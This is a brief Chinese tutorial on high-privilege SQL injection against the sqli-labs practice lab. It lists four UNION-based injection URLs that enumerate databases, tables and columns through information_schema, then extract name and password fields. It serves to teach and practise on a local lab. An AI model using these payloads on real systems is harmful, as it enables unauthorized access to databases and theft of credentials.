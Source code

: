 ```yaml
---
title: 2.4 SQL注入之高权限注入下
url: https://www.yuque.com/u29002979/ep2zrx/321b0a7dbac47c06f3c2766cda1196be
---
```


<h1>SQL注入之高权限注入</h1>
<p>1.注入流程与上节实例相同</p>
<h4>查询所有数据库名称</h4>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/fdc981b9a55d426f8ac014bb61d6356f.png" alt="image.png" class="align-none" /></p>
<pre><code>http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata
</code></pre>
<h4>查询数据库对应的表名</h4>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/5fd74715c4a24cb8bcebec4a7778a0f1.png" alt="image.png" class="align-none" /></p>
<pre><code>http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=0x74657374
</code></pre>
<h4>查询表名对应的字段名</h4>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/8cbb187549814a32afc2cb0a82b7765b.png" alt="image.png" class="align-none" /></p>
<pre><code>http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=0x7431
</code></pre>
<h4>查询数据</h4>
<p><img src="https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645010203000/1b9dc7926a544a1197a7f93a5be493d8.png" alt="image.png" class="align-none" /></p>
<pre><code>http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,name,pass%20from%20test.t1
</code></pre>
